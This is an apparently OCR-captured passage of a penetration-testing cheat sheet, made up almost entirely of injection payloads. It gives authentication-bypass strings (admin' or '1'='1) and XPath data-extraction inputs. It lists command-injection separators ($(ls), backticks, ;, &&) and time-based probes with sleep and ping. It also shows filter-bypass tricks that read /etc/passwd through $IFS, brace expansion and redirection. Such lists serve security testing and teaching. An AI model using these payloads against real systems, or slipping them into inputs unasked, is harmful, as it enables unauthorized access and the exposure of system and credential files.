 ```
# Authentication bypass
username: admin' or '1'='1
password: ' or '1'='1

# Extract data
username: ' or name()='username' or '
username: '] | //user[userid='2
```

---

## Command Injection

### Detection & Basic Exploitation

```bash
# Command separators
; ls
| ls
|| ls
& ls
&& ls
%0a ls
%0d ls
$(ls)
`ls`
{ls,}

# Time-based detection
; sleep 10
| sleep 10
& ping -c 10 127.0.0.1
|| ping -n 10 127.0.0.1
```

### Bypass Techniques

#### Space Bypass

```bash
# IFS (Internal Field Separator)
cat$IFS/etc/passwd
cat${IFS}/etc/passwd

# Brace expansion
{cat,/etc/passwd}

# Tab and newline
cat	/etc/passwd  # Tab
cat</etc/passwd

# HTML encoding in web context
cat%20/etc/passwd
```
